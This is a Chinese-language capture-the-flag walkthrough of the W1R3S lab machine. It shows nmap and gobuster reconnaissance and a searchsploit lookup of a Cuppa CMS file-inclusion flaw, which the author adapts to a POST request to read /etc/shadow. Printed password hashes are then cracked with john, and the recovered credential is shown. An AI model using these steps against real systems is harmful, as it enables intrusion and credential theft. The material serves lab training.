








# W1R3S

[TOC]

## 搜索目标主机

```
┌──(kali㉿kali)-[~]
└─$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:ef:82:51 brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.28/24 brd 192.168.1.255 scope global dynamic noprefixroute eth0
       valid_lft 241436sec preferred_lft 241436sec
    inet6 fe80::b619:d7ea:db0d:3962/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
                                                                                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sn 192.168.1.28/24                    
[sudo] password for kali: 
......
Host is up (0.059s latency).
MAC Address: 92:D8:B2:4C:7A:64 (Unknown)
Nmap scan report for 192.168.1.26
Host is up (0.086s latency).
MAC Address: AA:CF:AC:01:41:90 (Unknown)
Nmap scan report for 192.168.1.27
Host is up (0.00030s latency).
MAC Address: 00:0C:29:68:61:E5 (VMware)
Nmap scan report for 192.168.1.28
Host is up.
Nmap done: 256 IP addresses (17 hosts up) scanned in 15.94 seconds
```



## 探测端口状态

```
┌──(kali㉿kali)-[~/Documents/W1R3S]
└─$ sudo nmap -sT --min-rate 10000 -p- 192.168.50.130 -oA ports
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-01 13:52 EDT
Nmap scan report for 192.168.50.130
Host is up (0.0012s latency).
Not shown: 55528 filtered tcp ports (no-response), 10003 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
MAC Address: 00:0C:29:68:61:E5 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 12.38 seconds


┌──(kali㉿kali)-[~/Documents/W1R3S]
└─$ ports=$(grep open ports.nmap | awk -F'/' '{print $1}' | paste -sd ',')

```



## 详细端口探测

```shell

┌──(kali㉿kali)-[~/Documents/W1R3S]
└─$ sudo nmap -sT -sV -sC -O -p21,22,80,3306 192.168.50.130 -oA detail
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-01 13:54 EDT
Nmap scan report for 192.168.50.130
Host is up (0.00066s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.50.129
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28  2018 new-employees
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2                 .0)
| ssh-hostkey:
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|   256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
|_  256 3d:6d:d2:4b:46:e8:c9:a3:49:e0:93:56:22:2e:e3:54 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   MySQL (unauthorized)
MAC Address: 00:0C:29:68:61:E5 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 o                 pen and 1 closed port
Device type: general purpose|storage-misc
Running (JUST GUESSING): Linux 3.X|4.X|5.X|2.6.X (97%), Synology DiskStation Man                 ager 5.X (90%), Netgear RAIDiator 4.X (87%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:lin                 ux_kernel:5.1 cpe:/o:linux:linux_kernel:2.6.32 cpe:/a:synology:diskstation_manag                 er:5.2 cpe:/o:netgear:raidiator:4.2.28
Aggressive OS guesses: Linux 3.10 - 4.11 (97%), Linux 3.2 - 4.9 (97%), Linux 5.1                  (97%), Linux 3.13 - 3.16 (91%), Linux 3.16 - 4.6 (91%), Linux 4.10 (91%), Linux                  4.4 (91%), Linux 2.6.32 (91%), Linux 3.4 - 3.10 (91%), Linux 4.15 - 5.8 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: Host: W1R3S.inc; OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https                 ://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.36 seconds

```

### 漏洞脚本扫描

```shell

┌──(kali㉿kali)-[~/Documents/W1R3S]
└─$ sudo nmap --script=vuln -p21,22,80,3306 172.17.50.130 -oA vuln
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-01 13:59 EDT
Nmap scan report for 172.17.50.130
Host is up (0.00064s latency).

PORT     STATE    SERVICE
21/tcp   filtered ftp
22/tcp   filtered ssh
80/tcp   filtered http
3306/tcp filtered mysql

Nmap done: 1 IP address (1 host up) scanned in 12.46 seconds

```

### 登录Ftp

唯一要注意的两点

1. 切换binary
2. prompt切换
3. mget 可以下载多个文件

## 攻击web

经过简单查看主页无法获得有用信息。于是开始安装gobuster尝试爆破目录获取更多信息。

`sudo apt install gobuster`

```

┌──(kali㉿kali)-[~/Documents/W1R3S]
└─$ sudo gobuster dir -u http://192.168.50.130 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.50.130
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 320] [--> http://192.168.50.130/wordpress/]
/javascript           (Status: 301) [Size: 321] [--> http://192.168.50.130/javascript/]
/administrator        (Status: 301) [Size: 324] [--> http://192.168.50.130/administrator/]
/server-status        (Status: 403) [Size: 302]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```




## 搜索EXP

```

┌──(kali㉿kali)-[~/Documents/W1R3S]
└─$ searchsploit cuppa
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusio | php/webapps/25971.txt
--------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[~/Documents/W1R3S]
└─$ searchsploit cuppa -m 25971
[!] Could not find EDB-ID #


  Exploit: Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion
      URL: https://www.exploit-db.com/exploits/25971
     Path: /usr/share/exploitdb/exploits/php/webapps/25971.txt
    Codes: OSVDB-94101
 Verified: True
File Type: C++ source, ASCII text, with very long lines (876)
Copied to: /home/kali/Documents/W1R3S/25971.txt

```

###  利用EXP

根据提示，尝试利用，但是利用失败。幸运的是在利用信息中存在软件包下载信息，让我们可以开始代码审计。



## 代码审计

根据访问url结合Cuppa自身目录信息，很快可以定位到有问题的代码位置。最终发现是由于include 后续内容拼接导致的。之前我使用一直是get请求，

而通过代码审计我发现应该使用Post请求。



但在使用了post请求以后我依然无法获取到想要的内容，直到我搭建了php调试环境，发现原来是我http请求头里面没有`Content-Type: application/x-www-form-urlencoded`导致请求一直失败。



到此我们就应该查看/etc/shadow这个文件，因为用户hash就保存在这个文件中。



## 破解Hash

整理用户hash到文件hash.txt中

```
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
```

```

┌──(kali㉿kali)-[~/Documents/W1R3S]
└─$ sudo john hash.txt
[sudo] password for kali:
Created directory: /root/.john
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
www-data         (www-data)
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
computer         (w1r3s)

```



```
w1r3s
computer
```


## 总结

在使用 POST 请求提交数据时，是否必须使用 `Content-Type: application/x-www-form-urlencoded` 取决于具体的情况和服务器的要求。`Content-Type` 标头用于告诉服务器请求中包含的数据类型。以下是几种常见的 `Content-Type` 类型：

1. **application/x-www-form-urlencoded**：
   - 数据以键值对的形式编码，类似于 URL 参数。
   - 常用于提交 HTML 表单数据。
   - 例如：`name=John&age=30`
2. **multipart/form-data**：
   - 用于表单提交文件时。
   - 可以在同一个请求中上传文件和其他字段。
   - 例如：包含文件上传的表单数据。
3. **application/json**：
   - 用于发送 JSON 格式的数据。
   - 例如：`{"name":"John", "age":30}`
4. **text/plain**：
   - 用于发送纯文本数据。
5. **其他类型**：
   - 可以根据需要定义其他类型，例如 XML (`application/xml`)、CSV (`text/csv`) 等。


如果在linux /etc/passwd目录下无法查看到密码，表示在系统内保存的是用户hash，通过在目录/etc/shadow文件中可以找到hash。使用john工具可以用来破解hash。
